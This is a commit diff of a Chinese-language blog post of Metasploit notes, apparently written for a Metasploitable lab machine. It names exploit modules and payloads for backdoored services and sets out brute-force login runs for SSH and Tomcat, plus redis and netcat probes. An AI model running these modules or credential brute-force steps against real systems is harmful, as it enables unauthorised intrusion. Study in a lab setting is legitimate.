

Before and after one commit to qfdmx/qfdmx.github.io, a Jekyll site: the page built from _posts/2018/2018-12-4-msfconsole.markdown, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
qwer12345

```diff
--- a/_posts/2018/2018-12-4-msfconsole.markdown
+++ b/_posts/2018/2018-12-4-msfconsole.markdown
@@ -7,42 +7,99 @@ tags: msfconsole
 description: ssh遇到问题集合
 ---
 3.1	Vsftp 2.3.4 版本
+
 Module：exploit/unix/ftp/vsftpd_234_backdoor
+
 Payload：cmd/unix/interact
 
 3.2	Web服务（80端口）
 
-
 输入参数：
 
 3.3	Php CGI注入
+
 Module：exploit/multi/http/php_cgi_arg_injection
+
 Payload：php/meterpreter/bind_tcp
 
 3.4	SMB目录共享
+
 139端口，445端口这两个都是smb类型的，是共享服务，首选我们需要知道它的共享目录有哪些
+
 Module：auxiliary/scanner/smb/smb_enumusers
 
 Module：auxiliary/admin/smb/samba_symlink_traversal
 
+port 22 search ssh
+
+use auxiliary/scanner/ssh/ssh_login
+
+show options
+
+set rhosts 192.168.190.130
+
+set user_file /tmp/user.txt
+
+set pass_file /tmp/passwd.txt
+
+run
 
 
 3.5	Msfable后门
 
+telnet 192.168.190.130
+
 3.6	JAVA反序列化
 
-3.7	Distccd服务远程命令
+
+
+3.7	Distccd服务远程命令(不建议)
+
 Module：exploit/unix/misc/distcc_exec
+
 Payload：cmd/unix/bind_perl
 
 3.8	Postgresql弱密码
 
+use auxiliary/scanner/postgres/postgres_login
+
 3.9	VNC服务
+
+port 5900 vnc
+
+use auxiliary/scanner/vnc/vnc_login
 
 3.10	IRC服务
 
+port 6667 IRC
+
+use exploit/unix/irc/unreal_ircd_3281_backdoor
+
 3.11	Tomcat服务
 
+use auxiliary/scanner/http/tomcat_mgr_login
+
+set user_file /tmp/user.txt
+
+set pass_file /tmp/passwd.txt
+
+set rport 8180
+
+
 3.12	Drb服务
+
 Module：exploit/linux/misc/drb_remote_codeexec
+
 Payload：cmd/unix/bind_perl
+
+3.13
+
+redis
+
+./redis-cli -p 30000 -h 192.168.190.130
+
+info
+
+3.14
+
+echo envi|nc 192.168.190.130 2181
```
